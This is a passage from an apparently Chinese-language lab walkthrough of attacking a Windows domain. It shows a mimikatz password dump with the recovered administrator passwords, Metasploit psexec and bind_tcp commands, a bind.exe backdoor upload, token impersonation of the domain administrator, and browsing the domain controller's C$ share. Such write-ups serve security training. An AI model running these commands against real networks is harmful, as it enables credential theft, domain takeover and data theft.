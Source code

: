 报错了，因为当前是 32 位的进程无法运行 mimikatz，所以我们需要将当前进程迁移到一个 64 位的进程中。执行 ps 命令后随便找一个 64 位的进程迁移进去就行了：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlfJwy7bBibmqNdjWYDNAusXLjGyo4liaNoKwfZsJpRvkRARqcz4cl1JQA/640?wx_fmt=png)image-20210204191326339![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlZv0UzzOiaBJdWSGkvLxvUO4yYCibw0X4PsY94Cy4kOV84fJRO3cdse9A/640?wx_fmt=png)image-20210204191437231

如上图，成功抓取到了 Windows 2008 本地的管理员用户和域管理员的密码：

•WIN2008\Administrator：123qwe!ASD•TEST\administrator：zxcASDqw123!!

由于之前我们可以用 Windows7 上的用户 Net-NTLM Hash 对 Windows 2008 进行重放，说明 Windows 7 上的用户名和密码必然和 Windows 2008 是一样的，所以我们可以尝试直接登录：

```
use exploit/windows/smb/psexecset rhosts 192.168.93.30set SMBUser administratorset SMBPass 123qwe!ASDset payload windows/meterpreter/bind_tcpset rhost 192.168.93.30run
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlW6cR9xZEdZcEbNoNHeMDVDoZwwHXBRdiaA9mGWv2sDTGEQjA32Cv4vw/640?wx_fmt=png)image-20210204165332678

竟然成功了。。。

进攻域控
----

我们上面已经获得了域管理员的用户名密码了，直接登录即可：

```
setg Proxies socks5:127.0.0.1:1080use exploit/windows/smb/psexecset rhosts 192.168.93.10set SMBDomain TESTset SMBUser administratorset SMBPass zxcASDqw123!!# set SMBPass fc5d63d71569f04399b419bc76e2eb34:18edd0cc3227be3bf61ce198835a1d97set payload windows/meterpreter/bind_tcpset rhost 192.168.93.10run
```

登录失败了：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlV88owlL0ibp100OMy0AWGYr81oDxrck03ibg7FMHPHkMfiaR7xqGegFug/640?wx_fmt=png)image-20210204200557814

只能用其他方法了。

重新生成一个正向的 msf 马 bind.exe，并将 bind.exe 上传到 Windows 2008：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlh9hIAx9FsP88v7fZ2zKZiaXNticicJ1tcicarWuCG8CegJicgaibXWE40HtA/640?wx_fmt=png)image-20210204202020352

然后我们窃取个域管理员用户的 token 令牌：

```
use incognitolist_tokens -uimpersonate_token "TEST\adminitrator"
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlXs6lNb7gK8XeG6e5oWyP8CT4RftZU759AA9RRQr3xJibntiaEkVglEKg/640?wx_fmt=png)image-20210204201757090

这样我们的当前拿下的 Windows 2008 便有了访问域控制器的权限：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlBichpFFE9lAjpJKzkfaUichtl0ibAa7d5ePWQay8DwB7YCYibrlA9s2N9w/640?wx_fmt=png)image-20210204201915302

如上图，成功列出域控制器（192.168.93.10）的 C 盘目录。

在 C:\Users\Administrator\Documents 目录里面发现了所谓的机密文件：

```
dir \\192.168.93.10\C$\Users\Administrator\Documents
```
